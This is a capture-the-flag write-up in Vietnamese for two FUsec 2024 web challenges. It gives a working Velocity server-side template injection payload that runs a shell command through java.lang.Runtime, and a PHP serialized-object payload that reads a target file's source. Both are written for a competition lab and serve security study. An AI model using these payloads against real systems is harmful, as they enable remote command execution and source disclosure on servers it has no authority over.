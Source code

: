 # Web 1: IsH0wSp33d 

![346514618-c040f3cf-8289-47b0-8070-067431864946](https://github.com/neo-M3tinez/FUsec-2024/assets/174318737/b7b888b1-57ba-435f-8967-0f00af761ff5)


1. Initial reconnaissance:

+ đầu tiên trong web khi nhập ta có được 1 số thông tin về template thông báo not found search bar

![346514742-ce74e7e4-74b9-424c-8b94-03da382fc542](https://github.com/neo-M3tinez/FUsec-2024/assets/174318737/70830fd6-4869-48bd-9cdc-e8c396c8ab21)


=> điều kì lạ xảy ra khi ta không nhập 1 thông tin gì vào mục search thì nó hiện ra thông tin là **hello, velocity!**

![346514768-7dbb24da-2ac9-455b-a1c1-2787ddcb5188](https://github.com/neo-M3tinez/FUsec-2024/assets/174318737/7d367023-25a8-47ae-84a1-c995dac34815)


+ lúc đầu do chưa biết rõ về thông tin lỗ hổng đó nên mình dùng thử brupsuite pro quét qua cái test case trong đó thì mình  tìm ra được lỗ hổng ssti và test case của nó được encode url

![346514812-98ebf14b-24f8-46f3-982b-14287195b037](https://github.com/neo-M3tinez/FUsec-2024/assets/174318737/5976b62d-76f3-49c1-8781-650f5195ade2)

sau khi decode thì mình được 1 payload có dạng 

![346514848-f21c3d2e-5c71-41b7-9311-f3985298f33b](https://github.com/neo-M3tinez/FUsec-2024/assets/174318737/b4e75f74-7f53-4595-8f5b-f687e35acec5)


sau khi lọc ra test thì ta được payload 

```
#set ($a=7*7) ${a}
```

![346515510-efc9f052-62f0-45b6-b8ae-666ada079507](https://github.com/neo-M3tinez/FUsec-2024/assets/174318737/5c79caff-c583-46ae-8892-ebd964f239bc)

=> có vẻ đoán chắc đây là lỗ hổng ssti nhưng ở dạng velocity template sau khi được search 

payload: solve 

```
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```


# Web 2: web-secu-challenge 

![346515458-df6a5651-9f47-49c1-bfc8-8bb2a12b64ad](https://github.com/neo-M3tinez/FUsec-2024/assets/174318737/82897c54-9ef5-4eb9-b7b6-4a52d8279674)


payload 

```
<?php

// Define the XYZ class
class XYZ {
    public $source;

    public function __toString() {
        return highlight_file($this->source, true);
    }

    public function show() {
        echo $this->source;
    }
}

// Create an instance of the XYZ class
$obj = new XYZ();
$obj->source = 'target.php';

// Serialize the object
$serialized = serialize([$obj]);

// Output the serialized data
echo $serialized;

?>

```

![346515577-faf512e5-0d61-43a5-bca0-fe6010c336eb](https://github.com/neo-M3tinez/FUsec-2024/assets/174318737/7104e74d-e98c-4ee7-babd-36e98925c968)


=> flag: Fusec{flag-418e9146}
